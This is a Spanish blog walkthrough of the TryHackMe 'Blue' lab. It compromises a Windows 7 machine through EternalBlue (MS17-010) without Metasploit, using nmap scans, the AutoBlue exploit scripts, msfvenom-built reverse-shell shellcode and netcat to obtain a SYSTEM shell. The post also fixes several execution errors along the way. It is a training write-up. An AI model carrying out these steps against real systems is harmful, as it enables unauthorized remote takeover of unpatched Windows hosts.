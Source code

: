 ```yaml
---
layout: single
title: Máquina Blue - TryHackMe (Offensive Pentesting Path) - EternalBlue sin Metasploit
excerpt: "Siguiendo con el path Offensive Pentesting de TryHackMe, ahora nos toca comprometer la máquina Blue. Esto se realizará sin ayuda de Metasploit ejecutando el exploit EternalBlue de manera <<manual>>."
date: 2022-01-29
classes: wide
header:
  teaser: /assets/images/blue/portada.gif
  teaser_home_page: true
categories:
  - THM
  - Blog
tags:
  - Blog
  - Writeup
  - Guía
  - Walkthrough
---
```


# Aclaración inicial
La máquina se encuentra en la plataforma [TryHackMe](https://tryhackme.com/room/blue). Contrario a lo que nos indica la plataforma, esta guía será un **boot2root** con el objetivo de demostrar cómo explotar una vulnerabilidad **EternalBlue** sin ayuda de Metasploit. Eso quiere decir que no llevaremos a cabo las acciones post-explotación que solicita la máquina. El único propósito del sistema es el de fungir como playground para probar dicho exploit. Si buscas completar el room en TryHackMe, te recomiendo mejor seguir con el procedimiento que te indica la plataforma (con Metasploit).

¿Por qué? Durante la explotación del EternalBlue me encontré con varios fallos y errores que logré corregir, por lo que esta guía buscará además mostrar posibles fallos de ejecución que se pudieran presentar a la hora de explotar esta vulnerabilidad y cómo arreglarlos para continuar. En una entrada posterior intentaremos realizar la post-explotación que propone TryHackMe.

# Reconocimiento
La máquina es un Windows 7 de 64 bits. Nos lo indica la misma página de TryHackMe y podemos corroborarlo con una traza **ICMP**:

![1]

Por medio de un escaneo de puertos con nmap, detectamos aquellos que se encuentren activos con un estatus **open** en la máquina víctima:

	nmap --min-rate 5000 -p- --open -Pn -n 10.10.153.51 -oN portScan

![2]

Vemos que se encuentran habilitados varios servicios de Windows como el SMB y varios puertos típicos de Windows.

Si realizamos un escaneo más exhaustivo en busca de servicios y versiones específicas de dichos puertos, nos encontramos con la siguiente información:

![3]

Siempre que nos enfrentamos a un sistema Windows 7, debemos corroborar si es que existe la posibilidad de poder explotar la vulnerabilidad **EternalBlue**. Para ello, podemos hacer uso de scripts **vuln** y **safe** en un escaneo con nmap enfocado al puerto **SMB** (445).

	nmap --script "vuln and safe" -p445 10.10.153.51 -oN vulnScan

![4]

Vemos que es vulnerable al **MS17-010**, más conocido como **EternalBlue**, por lo que procedemos a explotar esta vulnerabilidad.

# EternalBlue
Para explotar esta vulnerabilidad, podemos emplear este [repositorio](https://github.com/lokendrasinghrawat/AutoBlue-MS17-010). Lo descargamos por medio de un **git clone**.

![5]

Este exploit tiene dos fases para ejecutarlo:

1. Crear los shellcodes necesarios para Windows.
2. Ejecutar el exploit con dicho shellcode.

# Creación de los shellcodes
Aquí es donde inicia el proceso de explotación y donde podríamos encontrar varios errores. El script requiere de un shellcode que pueda ser empleado tanto para sistemas de 32 bits como de 64 bits, y para ello, el repositorio incluye una herramienta para crearlos automáticamente llamado **shell_prep.sh**. Este nos permitirá, además, añadir al shellcode nuestro reverse shell con el cual ganaremos acceso al sistema.

Para ejecutarlo, debemos ir al directorio **shellcode** y ejecutar el binario **shell_prep.sh**

	./shell_prep.sh
	
![6]

**Nota:** Como podemos observar en la imágen anterior, podríamos encontrarnos con un error que dice **"line 13: nasm: command not found"**. Si este es el caso, lo mejor es finalizar el programa con CTRL+C ya que no tiene sentido continuar. Para arreglarlo, solo debemos instalar el comando faltante:

	apt install nasm
	
![7]

Una vez instalado, volvemos a ejecutar el **shell_prep.sh** y veremos que dicho error ya no aparece; si este es el caso, podemos continuar.

![8]

Para crear los shellcodes con una reverse shell que podamos recibir con ayuda de netcat, deberemos dar los siguientes parámetros:

	- would you like to auto generate a reverse shell with msfvenom (Y/n)
	Y
	- LHOST for reverse connection:
	TU IP DONDE RECIBIRÁS LA REVERSE SHELL
	- LPORT you want x64 to listen on:
	PUERTO DONDE ESTARÁS A LA ESCUCHA
	- LPORT you want x64 to listen on:
	PUERTO DONDE ESTARAS A LA ESCUCHA (DADO QUE EL SISTEMA ES UN WINDOWS DE 64 BITS, ESTA OPCIÓN NO ES NECESARIA; SIN EMBARGO, NO PUEDE SER EL MISMO PUERTO QUE EL ANTERIOR)
	- Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
	1 (COMO ESTA GUÍA SE BASA EN NO USAR METASPLOIT, NO QUEREMOS RECIBIR UNA REVERSE SHELL CON AYUDA DE METERPRETER)
	- Type 0 to generate a staged payload or 1 to generate a stageless payload:
	1 (STAGED ES PARA UNA REVERSE SHELL RECIBIDA CON METERPRETER, PARA RECIBIRLA CON NETCAT, DEBEMOS SELECCIONAR LA STAGELESS PAYLOAD).
	
![9]

Al finalizar la generación de los shellcodes, los unirá en uno solo un script llamado **eternalblue_sc_merge.py**, sin embargo, puede dar un error al finalizar que dice: **TypeError: must be str, not bytes**. Esto se debe a que el exploit está diseñado para ser usado con Python versión 2; si nuestro sistema Linux está configurado para emplear Python versión 3 por defecto al escribir en la línea de comandos **python**, entonces nos encontraremos con este error.

![10]

Para corregirlo, debemos modificar el script **shell_prep.sh**, específicamente en la línea 96; tenemos que cambiar el comando **python** por **python2** para que al ser ejecutado, este tire por Python versión 2.

![11]

Con esta corrección, volvemos a ejecutar el script con los mismos parámetros de antes. Veremos que al finalizar no nos lanza ningún error.

![12]

Ya tenemos todo listo, ahora solo nos resta ejecutar el exploit contra la máquina. Para ello, nos dirigimos al directorio principal del repositorio y ejecutamos el siguiente comando:

	python2 eternalblue_exploit7.py 10.10.113.175 shellcode/sc_all.bin
	
Debemos cuidar de colocar **python2** para que emplee dicha versión del lenguaje, además de ver que el script seleccionado sea el que tiene una terminación **7** (ya que se trata del script creado para los sistemas Windows 7). El último parámetro es la ubicación del shellcode creado anteriormente.

![13]

Como podemos ver, nos podemos llegar a encontrar con otro error (al menos el último con el que me pude topar), diciendo que no tenemos instalada la biblioteca **impacket**. Esto es normal, dado que esta biblioteca está instalada por defecto en la versión 3 de Python, pero no en la 2. Simplemente deberemos instalarla con el siguiente comando:

	python2 -m pip install impacket
	
![14]

Ahora sí, ya con la biblioteca instalada, podemos ejecutar nuevamente el script (sin olvidar ponernos en escucha con netcat en el puerto que hayamos especificado al momento de crear los shellcodes).

Obtendremos la siguiente salida:

![15]

# Acceso al sistema
Al haber ejecutado el script, veremos que recibimos una reverse shell desde netcat; de esta forma, ya tenemos acceso al sistema y no solo eso, sino que el acceso se ha ganado como un usuario privilegiado **NT AUTHORITY/SYSTEM**.

![16]

[1]:/assets/images/blue/1.png
[2]:/assets/images/blue/2.png
[3]:/assets/images/blue/3.png
[4]:/assets/images/blue/4.png
[5]:/assets/images/blue/5.png
[6]:/assets/images/blue/6.png
[7]:/assets/images/blue/7.png
[8]:/assets/images/blue/8.png
[9]:/assets/images/blue/9.png
[10]:/assets/images/blue/10.png
[11]:/assets/images/blue/11.png
[12]:/assets/images/blue/12.png
[13]:/assets/images/blue/13.png
[14]:/assets/images/blue/14.png
[15]:/assets/images/blue/15.png
[16]:/assets/images/blue/16.png